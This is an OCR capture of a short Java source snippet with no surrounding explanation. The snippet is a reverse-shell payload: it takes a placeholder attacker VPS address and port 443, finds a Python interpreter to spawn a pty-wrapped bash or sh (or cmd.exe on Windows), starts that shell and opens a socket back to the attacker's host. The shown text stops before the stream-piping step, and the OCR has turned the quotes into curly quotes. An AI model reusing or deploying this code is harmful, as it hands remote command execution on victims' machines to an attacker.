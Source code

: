 ```
String ip = “your-vps-ip”;

String port = “443”;

String py_path = null;

String[] cmd;

if (!System.getProperty(“os.name”).toLowerCase().contains(“windows”)) {

String[] py_envs = new String[]{"/bin/python", “/bin/python3”, “/usr/bin/python”, “/usr/bin/python3”, “/usr/local/bin/python”, “/usr/local/bin/python3”};

for(int i = 0; i < py_envs.length; ++i) {

String py = py_envs[i];

if ((new File(py)).exists()) {

py_path = py;

break;

}

}

if (py_path != null) {

if ((new File("/bin/bash")).exists()) {

cmd = new String[]{py_path, “-c”, “import pty;pty.spawn(”/bin/bash")"};

} else {

cmd = new String[]{py_path, “-c”, “import pty;pty.spawn(”/bin/sh")"};

}

} else {

if ((new File("/bin/bash")).exists()) {

cmd = new String[]{"/bin/bash"};

} else {

cmd = new String[]{"/bin/sh"};

}

}

} else {

cmd = new String[]{“cmd.exe”};

}

Process p = (new ProcessBuilder(cmd)).redirectErrorStream(true).start();

Socket s = new Socket(ip, Integer.parseInt(port));

```